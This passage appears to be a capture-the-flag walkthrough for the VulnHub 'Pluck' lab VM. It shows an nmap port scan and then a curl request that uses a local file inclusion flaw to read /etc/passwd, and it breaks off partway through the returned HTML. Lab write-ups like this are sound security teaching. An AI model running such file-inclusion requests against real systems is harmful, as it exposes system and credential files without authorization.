Hi Guys,

Here is my walkthrough for [Pluck VM](https://www.vulnhub.com/entry/pluck-1,178/).

Setup:
```bash
attacker: 192.168.56.1
victim  : 192.168.56.102
```

I started with a nmap scan:
```bash
# Nmap 7.40SVN scan initiated Sat Mar 11 16:57:24 2017 as: nmap -Pn -n -T4 -p- -v6 192.168.56.102
Nmap scan report for 192.168.56.102
Host is up, received arp-response (0.0013s latency).
Scanned at 2017-03-11 16:57:24 GMT for 3s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
5355/tcp open  llmnr   syn-ack ttl 1
MAC Address: 08:00:27:45:29:54 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/local/bin/../share/nmap
# Nmap done at Sat Mar 11 16:57:27 2017 -- 1 IP address (1 host up) scanned in 2.95 seconds
```

There are 4 interesting services, but lets start with the most obvious one, 80(HTTP).

Connecting to it gave a nice interface, with a menu:
- Home
- About
- Contact Us
- Admin

Clicking on all these menus I discovered the following:
- Home and About are LFI links
- Admin 'suffers' from SQLi

I putted suffers in between quotes as, it does give an SQLi error when you add a tick in the email field, but could not continue from there.
So I continued with the LFI. First lets get the password file:

```bash
➜  pluck curl "http://192.168.56.102/index.php?page=/etc/passwd"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>Pluck</title>
<link rel="stylesheet" href="/css/bootstrap.min.css">
<link rel="stylesheet" href="/css/bootstrap-theme.min.css">
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</head>
<body>
<nav id="myNavbar" class="navbar navbar-default navbar-inverse navbar-fixed-top" role="navigation">
    <!-- Brand and toggle get grouped for better mobile display -->
    <div class="container">
        <div class="navbar-header">
            <button type="button" class="navbar-toggle" data-toggle="collapse" data-target="#navbarCollapse">
                <span class="sr-only">Toggle navigation</span>
                <span class="icon-bar"></span>
```